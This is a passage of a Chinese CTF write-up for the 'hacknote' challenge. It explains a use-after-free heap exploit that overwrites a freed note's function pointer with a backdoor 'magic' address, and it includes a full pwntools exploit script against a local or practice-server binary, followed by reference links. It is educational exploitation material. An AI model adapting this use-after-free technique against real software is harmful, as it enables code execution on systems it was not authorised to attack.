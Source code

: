 再申请大小为8的chunk3，填入magic的函数地址   
申请时首先会申请一个8大小的空间，这时chunk2(8字节)的空间给了这个块，接着再申请size大小的块，这时chunk1(字节)的空间给了这个块  
向chunk3中写入magic的函数地址，也就相对应向chunk1(8字节)写入magic的函数地址，此时原本存放puts函数指针的地方被magic函数覆盖了，也就导致了接下来打印chunk1内容的时候会直接执行magic函数  
exp:  
```Python
#coding=utf-8
from pwn import*
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
p=process("./hacknote")
#p=remote("node3.buuoj.cn",25290)
elf=ELF("./hacknote")
magic = 0x8048986

def add(size,content):
    p.recvuntil("choice :")
    p.sendline("1")
    p.recvuntil("size :")
    p.sendline(str(size))
    p.recvuntil("Content :")
    p.sendline(content)

def delete(index):
	p.recvuntil("choice :")
	p.sendline("2")
	p.recvuntil("Index :")
	p.sendline(str(index))

def view(index):
	p.recvuntil("choice :")
	p.sendline("3")
	p.recvuntil("Index :")
	p.sendline(str(index))

add(16,"aaa")
add(16,"bbb")

delete(0)
delete(1)

add(8,p32(magic))
view(0)

p.interactive()
```  
这题总体来说还是不难的，程序中存在后门函数，我们只要直接写进去就行了  


</br>
</br>
参考链接:

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/use_after_free-zh/   
http://mrbelieve.tech/2020/02/01/%E5%A0%86%E4%B9%8BUAF(Use_after_free)%E5%8F%8A%E8%B0%83%E8%AF%95-hitcontraining_uaf/  
https://www.b1ndsec.cn/?p=352  
https://www.jianshu.com/p/2cae38284bff  



